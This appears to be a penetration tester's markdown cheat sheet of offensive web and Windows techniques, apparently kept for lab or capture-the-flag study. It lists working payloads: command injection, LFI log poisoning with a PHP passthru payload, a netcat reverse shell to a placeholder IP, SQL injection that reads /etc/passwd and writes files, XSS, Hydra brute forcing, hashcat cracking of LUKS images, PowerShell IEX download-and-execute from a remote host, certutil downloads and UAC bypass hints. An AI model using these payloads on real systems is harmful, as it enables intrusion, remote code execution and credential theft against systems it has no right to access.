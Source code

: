 # Tools

#### RCE

`;` or `|` to add commands

***

#### LFI

* traverse directories
* `/proc/self/environ`
  * can also be done on other log files
  * can send base64 encoded scripts through and decode
  * `ssh [payload]@[hostip]`
  * payload would be something like `<?php passthru(base64_decode('[b64encoded string]')); ?>`
* use burp to mod headers
* `nc -e /bin/sh [ip] [port]`
  * add listener first `nc -lvnp [port]`
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

***

#### RFI

* storing a txt file on webserver of a machine we have access to which can connect to the machine we want access to (we want to attack MS VM we have access to Kali VM, store file on Kali, use LFI but pass in url to file to pull, add `?` to param to get it to execute as php, change caps of protocol for bypassing some checks)

***

#### File uploads

* change mime type
* change file extension
* add magic characters

***

#### SQL Injection

* in forms:
  * check with `pass' and 1=1#` in password field if you have a valid login
  * can also use `pass' OR 1=1#` with an invalid login but have a good username
  * could also just use username field if good username: `admin'#`
  * if there are checks on the client side, can remove onsubmit functions in the dom or intercept good data on burp and modify before it's sent to include the SQLi
* in get params:
  * try `order by 1#`, may have to urlencode `#` to `%23`
  * use this to increment through column count then you can `union select 1,2,3..n%23`
  * `union select 1,table_name,null,null,..,n from information_scema.tables`
  * etc,etc
* to bypass some filtering, you may need to convert strings into hex, urlencode everything and send it
* sometimes changing param sequences or case will bypass some filters as well
* when records are limited, iterate in sql to get all info desired
  *
    * `limit 0,1` then `1,1`, `2,1`, etc etc
* reading files: `union select load_file('/etc/passwd'),2 #`
* write to file: `union select 'test text',null into outfile '/var/www/output.txt'#`
  * may not have write access, use LFI for possible workaround if available - write to /tmp with sql injection, use LFI to access file (could also to RFI if separate machines have different vulns)
* Tools
  * sqlmap
    * `sqlmap -r [filename].req --level 4 --risk 3`

***

#### XSS

* more info from python course
* url params and input boxes
* `<script>alert('1')</script>`
* often change case to fool filters
* look at page source to see how code is being output and modify accordingly
* urling urlencoding is almost always helpful
* always try to modify the DOM (remove inline methods, remove maxlength attributes, etc)
* get charcode, use String.fromCharCode instead of using quotes

***

#### Cookies

* simple cookies can be manipulated to allow access (uid, etc)

***

#### CSRF

* make a hidden version of a form that submits on load

***

#### Creating Wordlists

* crunch: `crunch [min] [max] [chars] -t [pattern] -o [filename]`
* `crunch 6 8 123abc$ -o wordlist -t a@@@@b`, 6-8 chars, include 1,2,3,a,b,c,$, start with a, end with b

***

#### encrypted cookies

* can sometimes be busted with padbuster

***

#### Brute forcing

* Hydra
  * `hydra [hostIP] -l [login] -L [loginfile] -p [pass] -P [passfile] -C [user:pass file] [service]`
  * for web form, append `"path-to-form.ext:[username]=^USER^&password=^PASS^&other-param=param:F=Not Logged In String"`

***

#### WFUZZ

* Need notes!!!

***

#### ZAP

* automated scanning, but more manual than many of the tools
* can audit all scans after

***

#### hashcat

* `hashcat --example-hashes`
* LUKS exncrypted disk images
  * `cryptsetup luksDump [imgfile]` to get payload offet +1
  * `dd if=[imgfile] of=[outfile] bs=512 count=[offset]`
  * `hashcat -m 14600 [file] [wordlist]`

***

#### mounting LUKS disk image

* `cryptsetup luksOpen backup.img [name]`
* `ls /dev/mapper`
* `mount /dev/mapper/[name] /mnt`

***

#### PowerShell

* powershell can switch from cmd to powershell
* Downloading files:
  * `IEX(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `Invoke-WebRequest -Uri http://[host]/[file]`
    * `IWR -uri http://[host]/[file]` also works
    * `-OutFile C:\\windows\\temp\\filename.ext` to specify a filename
  * if in cmd shell, need to use `powershell` prefix
* listing all files:
  * `gci -recurse . | select fullname`
* copy binary file to b64 string for rebuilding:
  * `certutil -encode [filepath] [outfile path].b64`
  * `type [outfile path].b64`
  * copy, paste to file on host
  * base64 decode it:
    * `base64 -d [filename].b64 > [filename].ext`
* creating credentials from string
  * `$pass = ConvertTo-SecureString '[pass]' -AsPlainText -Force`
  * `$cred = New-Object System.Management.Automation.PSCredential("[user]",$pass)`
  * `hostname`
  * `Invoke-Command -Computer [hostnmame] -ScriptBlock { whoami } -Credential $cred`
    * can use this to then run another IWR to grab a shell and get escalated shell
* useful to use rlwrap on your listener:
  * `rlwrap nc -lvnp 9001` - this will give history up arrow, ctrl L to clear, etc.
* bypass admin lockout if in admin group
  * `net use Z: \\127.0.0.1\c$`
  * `z:`
* UACME for ways to bypass UAC

***

#### CMD

* download a file
  * `certutil -urlcache -f http://[host]/[file] [outfile path]`

***

#### TheHarvester

#### whatweb

#### wappalyzer

#### pownjs
